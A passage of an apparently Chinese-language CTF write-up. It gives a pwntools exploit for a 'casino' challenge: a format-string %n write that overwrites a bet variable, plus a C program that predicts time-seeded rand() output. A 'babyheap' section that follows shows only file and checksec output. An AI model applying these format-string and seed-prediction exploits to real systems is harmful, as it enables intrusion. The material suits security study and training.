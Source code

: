 - PRNG 拿當前時間當作 seed，因此能透過同步產生 `seed()` 來繞過
- index 少一次，透過 fmt 寫 `bet` 為 2~9 (只夠 `read()` 一個位數) 即可

exploit:

```python
#!/usr/bin/python3

from pwn import *
import subprocess
 
bet = 0x404020
 
r = process('./casino')
input()
r.send(b"%2c%11$n"+ p64(bet))
 
proc = subprocess.Popen(["./test"], stdout=subprocess.PIPE)
out, _ = proc.communicate()
num_list = list(map(int, out.split(b' ')[:-1]))
print(num_list)
 
for i in range(99):
    r.sendlineafter('/100] Guess my number: ', str(num_list[i]))
    print(f'[{i+1}/100] Guess my number: ' + str(hex(num_list[i])))
 
r.interactive()
```

`gen_rand.c`:

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main()
{
    int seed = time(0) / 0xA;
    srand(seed+2);

    for (int i = 1; i <= 99; i++) {
        printf("%d ", rand());
    }
    puts("");
}
```

### babyheap

```
// file
babyheap:   ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=23008467de87c63ad5aedf5163924ae028313fd6, for GNU/Linux 3.2.0, stripped

// checksec
[*] '/tmp/tmp/fireshell-ctf-2019/pwn/babyheap/src/babyheap'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
